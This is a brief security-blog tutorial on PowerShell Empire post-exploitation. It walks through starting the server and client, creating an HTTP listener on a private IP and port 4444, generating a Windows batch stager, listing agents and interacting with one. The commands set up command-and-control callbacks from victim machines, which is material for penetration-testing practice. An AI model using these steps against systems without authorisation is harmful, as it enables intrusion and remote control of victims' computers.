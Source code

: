 # Welcome to Cyber Secure Labs
Public Site for sharing security writes




## Post Exploitation 



### Working with Powershell Empire 

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

exploitation and post-exploitation of Active Directory (AD) deployments.


Windows Platform: Exploitation and post exploits are performed using Powershell.


Linux & macOS: Exploitation requires Python 2.6 or 2.7



In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below: 

```
sudo powershell-empire server
```

To start the client, the command is below: 

```
sudo powershell-empire client
```

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener 
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
use Listener http

set Name test

set Host 192.168.119.208

set Port 4444

execute

```

### Setting up a stager:


```
usestager windows/launcher_bat

set Listener test

execute

```


### Setting up a stager:

```
agents
```

### Interacting with an agent

```
interact S2PRDACB
```
